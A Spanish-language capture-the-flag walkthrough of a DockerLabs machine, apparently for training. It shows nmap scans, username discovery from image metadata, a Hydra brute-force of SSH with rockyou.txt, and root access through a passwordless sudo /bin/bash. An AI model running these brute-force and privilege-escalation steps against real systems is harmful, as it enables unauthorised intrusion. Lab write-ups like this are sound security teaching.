









# 🎯 BorazuwarahCTF - DockerLabs

## 🔍 Fase 1 - Enumeración inicial

### Escaneo de puertos

Lo primero que hice fue realizar un escaneo general sobre la IP de la víctima para identificar los puertos abiertos.

`sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2`

Gracias al escaneo pude identificar dos servicios importantes:

* Puerto 22 -> SSH
* Puerto 80 -> HTTP

---

### Escaneo de versiones

Una vez identificados los servicios realizo un escaneo de versiones para obtener más información.

`sudo nmap -sV -p22,80 172.17.0.2`

---

# 🌐 Fase 2 - Reconocimiento web

## Inspección de la página web

Accedo a la página utilizando curl para revisar el contenido disponible.

`curl http://172.17.0.2`

---

## Descarga de imagen

Dentro de la página encontré una imagen interesante, así que procedí a descargarla.

`curl -O http://172.17.0.2/imagen.jpeg`

---

## Análisis de metadatos

Utilicé exiftool para analizar los metadatos de la imagen descargada.

`exiftool imagen.jpeg`

Gracias a esto logré identificar el usuario:

* `borazuwarah`

---

# 🔑 Fase 3 - Fuerza bruta SSH

Con el usuario identificado decidí realizar un ataque de fuerza bruta contra el servicio SSH utilizando Hydra.

`hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 4`

El ataque fue exitoso y logré obtener las credenciales:

* Usuario: `borazuwarah`
* Contraseña: `123456`

---

# 🚪 Fase 4 - Acceso SSH

Con las credenciales obtenidas procedí a conectarme al sistema mediante SSH.

`ssh borazuwarah@172.17.0.2`

Contraseña:

`123456`

El acceso fue exitoso y conseguí una shell dentro del sistema.

---

# ⚡ Fase 5 - Escalada de privilegios

## Enumeración sudo

El siguiente paso fue revisar los permisos sudo del usuario.

`sudo -l`

### Resultado

El usuario podía ejecutar:

`/bin/bash`

como root sin contraseña.

---

## Obtención de root

Aprovechando los permisos sudo ejecuté bash como root.

`sudo /bin/bash`

---

## Verificación de privilegios

`whoami`

Resultado:

`root`

---

# Máquina comprometida exitosamente ✅
